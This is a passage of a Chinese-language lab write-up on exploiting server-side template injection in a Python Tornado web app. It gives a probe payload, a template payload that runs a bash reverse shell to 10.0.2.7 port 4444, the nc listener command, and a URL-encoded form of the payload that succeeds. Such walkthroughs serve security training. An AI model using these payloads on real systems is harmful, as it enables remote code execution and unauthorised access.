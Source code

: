 而我们又知道这个报错为 `python tornado` 框架触发的。

为进一步确认为哪一种 `python` 模板样式，我们可以使用下面这段代码

```html
${6*6},{{6*6}}
```
发现服务器给我们返回了 `${6*6},36` 说明我们可以通过 `{{}}` 来执行 python 代码

![alt](./mechine7.assets/2022-08-15_13-07.png)

既然我们能通过模板注入漏洞来执行正常的 python 代码，那我们能不能尝试使用模板注入漏洞给我们反弹 Shell 呢？

我们去网上搜索了一下，关于模板注入漏洞反弹 shell 的代码 。

```python
{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/10.0.2.7/4444 0>&1"')}}
```

我们先在攻击机上开启 `nc -nvlp 4444` 的监听

<font color='red' face=Monaco size=3>我们直接将这一段代码复制粘贴拼接上 URL 后提交服务器,发现并没有成功反弹shell</font>

那是因为我们可能需要对我们的 `payload` 里的特殊字符串进行 URL编码,然后再提交. 

+ 我们可以自己编写工具将其转换成 `URL` 编码格式，
+ 我们也可以去网上寻找在线 URL 编码网站对其进行 URL 编码
    + [URL encoder website](https://www.urlencoder.org/)

转换之后的 `payload` :

```url
%7B%25%20import%20os%20%25%7D%7B%7Bos.system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.7%2F4444%200%3E%261%22%27%29%7D%7D
```

我们将进行 URL 编码之后的字符串提交给服务器，发现我们成功获得 shell

![](./mechine7.assets/2022-08-15_13-14.png)
